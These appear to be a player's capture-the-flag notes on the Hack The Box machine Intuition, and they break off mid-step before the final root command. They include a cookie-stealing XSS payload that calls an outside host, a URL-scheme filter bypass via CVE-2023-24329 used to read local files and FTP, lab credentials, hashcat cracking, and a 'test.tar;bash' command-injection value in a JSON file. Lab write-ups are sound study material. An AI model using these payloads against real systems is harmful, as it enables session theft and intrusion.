 # HTB-Napper
- Windows

# HTB-Intuition
- Linux
- Found a bug reporting functionality which is inspected by the staff. Now got an account registered. So, was vulnerable to XSS and hence, got the cookie.
```
<img src=x onerror="fetch('http://10.10.14.148:3000/index.php?c='+document.cookie)">
```
Now found some more subdomains. And hence, got logged in as the WebDev staff with the attained cookie.
- Now the Admin staff was responsible for looking into higher priority bugs, and hence, again reported the same XSS payload and set the priority to 1 and got the Admin cookie as well and logged in as this user.
- So, now this Admin account got a PDF generation functionality from a URL and hence, tested it by hosting a file on tun0 and now we noticed the `User-Agent: Python-urllib3...` on the request we got and found `CVE-2023-24329`.
- This CVE states we can bypass any blacklisted schemes like `file://`, `ftp://`, etc. by simply adding a leading space character as ` file:///etc/passwd` and hence, it works.
- Now found the root directory where the Flask application is running with `/proc/self/environ` and `/proc/self/cmdline`.
- Now going through the `app.py` file, we located the other custom implemented modules and withing `/app/code/blueprints/dashboard/dashboard.py` located `ftp` credential.
- Now using the same bypass technique CVE above, we listed the FTP files as,
` ftp://ftp_admin:u3jai8y71s2@ftp.local`
and downloaded the files as,
```
 ftp://ftp_admin:u3jai8y71s2@ftp.local/welcome_note.txt
 ftp://ftp_admin:u3jai8y71s2@ftp.local/private-8297.key
```
where we found the encypted SSH private key with its passphrase.
Now got the key decrypted with,
```
chmod 600 id_rsa
ssh-keygen -p -f id_rsa
```
And found a comment which stated the username `dev_acc`. And hence, finally got SSH access and got the `user.txt`.
- Now for privesc, found a `user.db` file in the Flask app directory and got the hash and got it cracked. `adam:adam gray`
Also found port 21 open locally and hence, did ftp login and located some `runner1` backup files and how it is implemented. And also used hashcat to crack the remaining part of the auth code with,
`hashcat -m 0 -a 3 -1 ?d?u hash.txt UHI75GHI?1?1?1?1`
- Now from the logs in `/var/logs/suricata` located `lopez` user credentials with,
`zgrep -i "lopez" *.gz`
which tries to locate every line with the user `lopez` string within the compressed gzip files. And here we found this user logging in with FTP credentials and we tries SSH access and got success.
- Now `sudo -l` showed a custom binary named `runner2` which accepts a JSON file. So, revered it with ghidra and found it directly executes with the `system()` function without proper sanitation. So, used chatgpt to get the accepted json file format for this ghidra code. And now used a random tar file and named it as `test.tar;bash`. And now the JSON file format looks like,
```
{
	"run":{
					"action":"install"
					"role_path":"test.tar;bash"
	},
	"auth_code":"UHI75GHINKOP"
}
```
- So, now finally we run,